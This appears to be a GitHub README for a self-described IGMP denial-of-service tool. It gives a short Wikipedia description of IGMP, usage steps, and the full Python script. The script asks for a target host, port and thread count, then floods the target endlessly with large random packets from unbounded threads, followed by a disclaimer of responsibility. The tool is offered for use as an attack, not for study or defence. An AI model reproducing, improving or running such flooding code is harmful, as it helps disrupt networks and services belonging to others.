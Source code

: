 # Information
IGMP Denial of Service socket tools, written by myself.

**What exactly is IGMP?**
The Internet Group Management Protocol (IGMP) is a communications protocol used by hosts and adjacent routers on IPv4 networks to establish multicast group memberships. IGMP is an integral part of IP multicast and allows the network to direct multicast transmissions only to hosts that have requested them.
IGMP can be used for one-to-many networking applications such as online streaming video and gaming, and allows more efficient use of resources when supporting these types of applications.
IGMP is used on IPv4 networks. Multicast management on IPv6 networks is handled by Multicast Listener Discovery (MLD) which is a part of ICMPv6 in contrast to IGMP's bare IP encapsulation. (Source : Wikipedia)

## How To Use
First off, copy the codd from this repository, and paste it into your code.
Second, if you want it to be a hard-hitting one, you need to implement it by yourself
Third, run the **main.py** enter all the required credentials, and enter.

# Complete Code
If you're too lazy to clome the repository, just simply copy it from here!
### Python
```python
# Distributed Denial of Service by Kali
# Protected under MIT License

# Importing modules
import sys
import socket
import time
import random
import threading
import os
import urllib
from time import sleep

def main():
    global host
    global port
    global packets
    global threads
    global punch
    host = str(input("Host : "))
    port = input("Port : ")
    threads = int(input("Threads : "))
    print("Attack launched.")
    attack()

def randsender(host, port, punch):
    global packets
    global threads
    while True:
        try:
            sock = socket.socket(socket.AF_INET, socket.IPPROTO_IGMP)
            sock.sendto(punch, (host, int(port)))
            for y in range(threads):
                sock.sendto(punch, (host, int(port)))
        except socket.error:
            sock.close()

def attack():
    global host
    global port
    global packets
    global threads
    global punch
    socket.gethostbyname(host)
    pack = 20179
    punch = random._urandom(int(pack))
    while True:
        for x in range (threads):
            threading.Thread(target=randsender, args=(host, port, punch)).start()

if __name__ == "__main__":
    main()
# Special thanks and credit to IoTneT
```
# Important
Please read this before you use my project!
**NOTE : I DO NOT RESPONSIBLE FOR WHAT YOU DO WITH THIS, TAKE THIS AT YOUR OWN RISK AND DONT EVER HOOK ME UP WITH THE PROBLEM YOU MADE**
